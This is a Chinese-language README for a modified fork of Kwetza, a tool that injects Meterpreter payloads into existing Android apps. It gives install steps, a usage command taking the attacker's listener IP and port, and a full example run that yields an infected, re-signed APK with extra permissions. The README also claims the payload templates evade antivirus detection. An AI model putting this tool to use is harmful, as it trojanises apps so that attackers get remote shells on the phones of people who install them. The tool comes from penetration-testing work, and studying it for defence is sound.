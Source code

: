 # 介绍
By Chris Le Roy (@brompwnie) chris@sensepost.com

Kwetza是一种工具，可让您将Meterpreter payload植入到Android应用程序。
# 修改说明  
以下问题均出现在手机Termux终端上<br/>
1.指定脚本使用python3执行<br/>
2.修复语法错误:调用“print”时缺少括号<br/>
3.修复需要一个类似于bytes的对象，而不是'str'<br/>
4.修复'utf-8'编解码器无法解码字节0xa4在位置4:无效的开始字节<br/>

# 它有什么作用？

Kwetza使用自定义或默认payload模板感染现有的Android应用程序，以避免被杀病毒软件检测出来。Kwetza允许您使用目标应用程序的默认权限感染Android应用程序，或注入其他权限以获得其他功能。
# 在哪里可以获得博客文章？
可以在以下位置找到由Kwetza自动化的手动步骤：https://sensepost.com/blog/2016/kwetza-infecting-android-applications/

# 获取代码

首先获取代码：
```
git clone https://github.com/2487686673/Kwetza.git
```

Kwetza用Python编写，需要BeautifulSoup，可以使用pip安装：
```
pip install beautifulsoup4
```
Kwetza要求安装Apktool并可以通过您的PATH访问。可以使用位于此处的安装说明进行设置：https://ibotpeaches.github.io/Apktool/install

安装lxml解释器：<br>
使用Termux安装lxml需要先安装好依赖环境<br>
<br>
1.libxml2<br>
2.libxslt<br>
3.libiconv<br>
<br>
使用apt-get安装以上包，然后再执行pip install lxml即可<br>
# 用法
```
python kwetza.py nameOfTheApkToInfect.apk https/tcp LHOST LPORT yes/no customClass
```
* nameOfTheApkToInfect.apk = 希望植入payload的apk文件名

* LHOST = 监听IP

* LPORT = 监听端口

* yes/no = 选择yes则会添加额外的权限，选择no则会利用app原来的权限

* customClass = 如果希望Kwetza注入到此活动，请在此处指定自定义活动。

```
python kwetza.py hackme.apk https 10.42.0.118 4444 yes com.moo.another.activity
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```


# 信息
Kwetza以Python2开发。

Kwetza默认会使用payload文件夹下的模板和keystore在apk中植入恶意payload。

如果要用自己的证书签署应用，把你的keystore重命名为mykey.keystore放在payload文件夹下。

你也可以用同样的方法替换默认的payload模板

默认keystore的密码是”password”

# License

Kwetza is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0).

Permissions beyond the scope of this license may be available at http://sensepost.com/contact
